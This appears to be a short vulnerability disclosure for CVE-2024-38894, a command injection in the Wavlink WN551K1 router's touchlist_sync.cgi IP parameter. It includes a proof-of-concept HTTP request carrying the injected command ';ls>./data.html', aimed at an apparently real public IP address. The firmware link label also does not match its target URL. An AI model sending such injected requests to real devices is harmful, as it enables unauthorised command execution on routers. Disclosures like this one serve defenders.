 # WAVLINK WN551K1 found a command injection vulnerability through the IP parameter of /cgi-bin/touchlist_sync.cgi.

Product: Wavlink WN551K1

Manufacturer's website information：https://www.wavlink.com/en_us/index.html

Firmware download address ：[https://files.wavlink.com/fw/mesh/WN551K1%2CK2%2CK3-C-WAVLINK-WO-20210427-1087985](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-38894

### Analysis

The **v7** parameters were copied to the **v36** buffer without any filtering

![image](image.png)

### POC

```python
POST /cgi-bin/touchlist_sync.cgi?IP=;ls>./data.html HTTP/1.1
Host: 42.2.134.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Upgrade-Insecure-Requests: 1
```

![image-20240624093412576](./image-20240624093412576.png)

